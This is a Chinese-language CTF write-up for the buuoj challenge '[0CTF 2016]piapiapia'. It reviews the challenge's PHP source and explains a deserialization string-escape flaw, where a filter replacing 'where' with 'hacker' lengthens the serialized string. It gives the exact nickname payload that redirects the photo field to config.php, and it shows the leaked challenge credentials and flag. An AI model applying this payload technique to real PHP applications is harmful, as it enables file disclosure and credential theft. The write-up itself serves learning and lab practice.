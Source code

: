 ```yaml
---
title: buuoj刷题记录1
date: 2019-12-23 19:44:18
tags: 
 - ctf
 - buuoj
 - web
 - 0CTF
---
```


## [0CTF 2016]piapiapia

### 0x01 基础

一般文件的目录又xxx.php.bak/swp，或者查看元素、robots.txt里面有提示，或者`www.zip`等一系列文件中出现网站源码。也可以使用工具扫描

PHP序列化[参考文章](https://www.php.cn/php-notebook-239422.html)

<!--more-->

### 0x02 分析

题中`www.zip`中包含源码，下载~~后进行代码审计（不会）~~翻阅PHP手册，各种百度。在config.php中包含flag，要想办法获取到此文件
config.php

```
<?php
    $config['hostname'] = '127.0.0.1';
    $config['username'] = 'root';
    $config['password'] = '';
    $config['database'] = '';
    $flag = '';
?>
```
查看index.php

```php
if($user->login($username, $password)) {
			$_SESSION['username'] = $username;
			header('Location: profile.php');//登入后跳转到profile.php
			exit;	
		}
```

查看profile.php

```PHP
<?php   
    require_once('class.php');
if($_SESSION['username'] == null) { 
    die('Login First');
}   
$username = $_SESSION['username'];
$profile=$user->show_profile($username);
if($profile  == null) { 
    header('Location: update.php'); //$profile为空，跳转到update.php
}
else { 
    $profile = unserialize($profile); //一般看见unserialize()会考虑反序列化漏洞，
    $phone = $profile['phone']; 
    $email = $profile['email']; 
    $nickname = $profile['nickname'];
    $photo = base64_encode(file_get_contents($profile['photo']));//file_get_contents()此函数可以获得文件内容
}
?>
```

update.php

```php
if($_POST['phone'] && $_POST['email'] && $_POST['nickname'] && $_FILES['photo']) {

    $username = $_SESSION['username'];
    if(!preg_match('/^\d{11}$/', $_POST['phone']))
        die('Invalid phone');

    if(!preg_match('/^[_a-zA-Z0-9]{1,10}@[_a-zA-Z0-9]{1,10}\.[_a-zA-Z0-9]{1,10}$/', $_POST['email']))
        die('Invalid email');

if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
    die('Invalid nickname');

    $file = $_FILES['photo'];
    if($file['size'] < 5 or $file['size'] > 1000000)
        die('Photo size error');

    move_uploaded_file($file['tmp_name'], 'upload/' . md5($file['name']));
    $profile['phone'] = $_POST['phone'];
    $profile['email'] = $_POST['email'];
    $profile['nickname'] = $_POST['nickname'];
    $profile['photo'] = 'upload/' . md5($file['name']);

    $user->update_profile($username, serialize($profile));//将$profile序列化，执行过滤函数
    echo 'Update Profile Success!<a href="profile.php">Your Profile</a>';
}
```
查看update_profile()函数
```PHP
public function update_profile($username, $new_profile) {
    $username = parent::filter($username);
    $new_profile = parent::filter($new_profile); 
    $where = "username = '$username'"; 
    return parent::update($this->table, 'profile', $new_profile, $where);
}
```
查看filter()函数
```php
public function filter($string) {
    $escape = array('\'', '\\\\'); 
    $escape = '/' . implode('|', $escape) . '/'; 
    $string = preg_replace($escape, '_', $string); //将  “ ‘ ”、 “\\\\” 替换成 “_” 
    $safe = array('select', 'insert', 'update', 'delete', 'where');
    $safe = '/' . implode('|', $safe) . '/i';
    return preg_replace($safe, 'hacker', $string); //将“ select|insert|update|delete|where” 替换成 "hacker"，返回替换后的字符串
}
```

在update_profile()，返回到profile.php.

```php
$profile = unserialize($profile); //反序列化$profile
    $phone = $profile['phone']; 
    $email = $profile['email']; 
    $nickname = $profile['nickname'];
    $photo = base64_encode(file_get_contents($profile['photo']));

```

序列化后

```
$profile=a:4:{s:5:"phone";s:11:"11111111111";s:5:"email";s:8:"12@12.12";s:8:"nickname";s:4:"1234";s:5:"photo";s:39:"upload/d41d8cd98f00b204e9800998ecf8427e";}
```
要让$photo得到的文件是config.php也就是

```
s:5:"photo";s:39:"upload/d41d8cd98f00b204e9800998ecf8427e";
```
变成 
```
s:5:"photo";s:10:"config.php";
```
序列化后的长度是固定的，但是在经过过滤函数时候，nickname传入where会被替换成hacker,多出一个字符，这样就可以修改反序列化后的photo所对应的文件，使其为config.php。

因为nickname有长度限制使用数组可以绕过

```php
if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
    die('Invalid nickname');
```
让nickname的值为`"};s:5:"photo";s:10:"config.php";}`长度为34,传入34个where
### 0x03 开始操作

![1](/images/1.png) 传入参数

访问profile.php

![2](/images/2.png)

将base64解码


```php
<?php
$config['hostname'] = '127.0.0.1';
$config['username'] = 'root';
$config['password'] = 'qwertyuiop';
$config['database'] = 'challenges';
$flag = 'flag{94b7c4b2-866d-4189-9b0a-abdf22990071}';
?>
```

